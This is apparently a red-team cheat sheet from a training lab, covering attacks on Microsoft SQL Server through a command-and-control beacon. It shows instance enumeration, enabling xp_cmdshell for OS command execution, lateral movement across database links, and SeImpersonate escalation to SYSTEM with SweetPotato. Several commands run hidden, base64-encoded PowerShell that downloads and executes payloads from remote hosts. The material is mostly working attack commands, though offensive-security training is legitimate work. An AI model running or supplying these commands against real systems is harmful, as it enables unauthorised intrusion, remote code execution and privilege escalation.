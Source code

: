 # MSSQL Servers

# Use PowerUpSQL for enumerating MS SQL Server instances

    beacon> powershell-import C:\Tools\PowerUpSQL\PowerUpSQL.ps1
    beacon> powerpick Get-SQLInstanceDomain

# Check access to DB instance with current user session

    beacon> powerpick Get-SQLConnectionTest -Instance "sql-2.dev.cyberbotic.io,1433" | fl
    beacon> powerpick Get-SQLServerInfo -Instance "sql-2.dev.cyberbotic.io,1433"
    beacon> powerpick Get-SQLInstanceDomain | Get-SQLConnectionTest | ? { $_.Status -eq "Accessible" } | Get-SQLServerInfo

# Query execution

    beacon> powerpick Get-SQLQuery -Instance "sql-2.dev.cyberbotic.io,1433" -Query "select @@servername"

# Command Execution

    beacon> powerpick Invoke-SQLOSCmd -Instance "sql-2.dev.cyberbotic.io,1433" -Command "whoami" -RawResults

# Interactive access and RCE (xp_cmdshell 0 means it is disabled, needs to be enabled)

    ubuntu@DESKTOP-3BSK7NO ~> proxychains mssqlclient.py -windows-auth DEV/bfarmer@10.10.122.25 -debug

    SQL> EXEC xp_cmdshell 'whoami';
    SQL> SELECT value FROM sys.configurations WHERE name = 'xp_cmdshell';
    SQL> sp_configure 'Show Advanced Options', 1; RECONFIGURE;
    SQL> sp_configure 'xp_cmdshell', 1; RECONFIGURE;

    SQL> EXEC xp_cmdshell 'powershell -w hidden -enc aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAiAGgAdAB0AHAAOgAvAC8AdwBrAHMAdABuAC0AMgA6ADgAMAA4ADAALwBwAGkAdgBvAHQAIgApAA==';

# Lateral Movement (using DB Links)

    beacon> powerpick Get-SQLServerLink -Instance "sql-2.dev.cyberbotic.io,1433"
    beacon> powerpick Get-SQLServerLinkCrawl -Instance "sql-2.dev.cyberbotic.io,1433"
    beacon> powerpick Get-SQLServerLinkCrawl -Instance "sql-2.dev.cyberbotic.io,1433" -Query "exec master..xp_cmdshell 'whoami'"

    SQL> SELECT * FROM master..sysservers;
    SQL> SELECT * FROM OPENQUERY("sql-1.cyberbotic.io", 'select @@servername');
    SQL> SELECT * FROM OPENQUERY("sql-1.cyberbotic.io", 'SELECT * FROM sys.configurations WHERE name = ''xp_cmdshell''');

    SQL> EXEC('sp_configure ''show advanced options'', 1; reconfigure;') AT [sql-1.cyberbotic.io]
    SQL> EXEC('sp_configure ''xp_cmdshell'', 1; reconfigure;') AT [sql-1.cyberbotic.io]

    SQL> SELECT * FROM OPENQUERY("sql-1.cyberbotic.io", 'select @@servername; exec xp_cmdshell ''powershell -w hidden -enc aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAiAGgAdAB0AHAAOgAvAC8AcwBxAGwALQAyAC4AZABlAHYALgBjAHkAYgBlAHIAYgBvAHQAaQBjAC4AaQBvADoAOAAwADgAMAAvAHAAaQB2AG8AdAAyACIAKQA=''')

# MSSQL PrivEsc - Service Account (SeImpersonate) to System 

    beacon> getuid
    beacon> shell whoami /priv
    beacon> execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe TokenPrivileges

    beacon> execute-assembly C:\Tools\SweetPotato\bin\Release\SweetPotato.exe -p C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -a "-w hidden -enc aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAiAGgAdAB0AHAAOgAvAC8AcwBxAGwALQAyAC4AZABlAHYALgBjAHkAYgBlAHIAYgBvAHQAaQBjAC4AaQBvADoAOAAwADgAMAAvAHQAYwBwAC0AbABvAGMAYQBsACIAKQA="

    beacon> connect localhost 4444
